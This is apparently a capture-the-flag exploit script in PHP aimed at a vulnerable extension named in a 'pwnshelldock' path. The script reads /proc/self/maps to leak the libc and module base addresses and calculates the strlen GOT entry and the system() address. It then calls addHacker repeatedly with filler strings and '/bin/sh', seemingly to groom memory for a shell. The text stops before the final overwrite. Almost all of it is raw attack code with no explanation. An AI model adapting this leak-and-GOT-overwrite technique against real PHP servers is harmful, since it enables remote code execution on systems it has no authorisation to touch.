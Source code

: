 ```php
<?php

$vuln_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f].)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .* \/home\/l1qu1d\/pwn\/chall\/php_pwn\/pwnshelldock\/stuff\/vuln.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
$vuln_base = hexdec($mbase[1][0]);
$libc_base = $vuln_base + 0x31a3000;
$strlen_got = $vuln_base + 0x4020;
$system_addr = $libc_base + 0x58750;
echo "Libc base   => " . dechex($libc_base) . "\n";
echo "game base   => " . dechex($vuln_base) . "\n";
echo "strlen got  => " . dechex($strlen_got) . "\n";
echo "system addr => " . dechex($system_addr) . "\n";


addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "bbbbbbb");
addHacker("cccccccccccccccccccccccc", "ddddddd");
addHacker("cccccccccccccccccccccccc", "ddddddd");
addHacker("/bin/sh", "/bin/sh");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");

```